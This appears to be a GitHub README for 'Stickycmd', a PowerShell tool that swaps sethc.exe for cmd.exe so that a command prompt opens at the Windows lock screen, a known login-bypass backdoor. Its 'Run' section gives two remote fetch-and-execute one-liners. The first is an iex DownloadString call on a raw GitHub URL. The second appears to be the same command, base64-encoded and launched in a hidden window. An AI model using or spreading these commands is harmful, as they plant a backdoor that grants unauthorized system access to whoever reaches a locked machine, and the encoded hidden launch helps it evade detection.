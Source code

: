 # Stickycmd

![Stickycmd](https://ctrla1tdel.files.wordpress.com/2020/05/stickycmd.jpg)

## About

PowerShell Script that replaces sethc.exe with cmd.exe, allowing you to get a cmd prompt during the lockout screen. 


##Run

You can either run locally by downloading the script or run remotely using: 

powershell –nop –c “iex(New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/securethelogs/Stickycmd/master/stickycmd.ps1)”

or

powershell -nop -noni -w hidden -enc aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAYIGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AcwBlAGMAdQByAGUAdABoAGUAbABvAGcAcwAvAFMAdABpAGMAawB5AGMAbQBkAC8AbQBhAHMAdABlAHIALwBzAHQAaQBjAGsAeQBjAG0AZAAuAHAAcwAxACcAKQApAA==

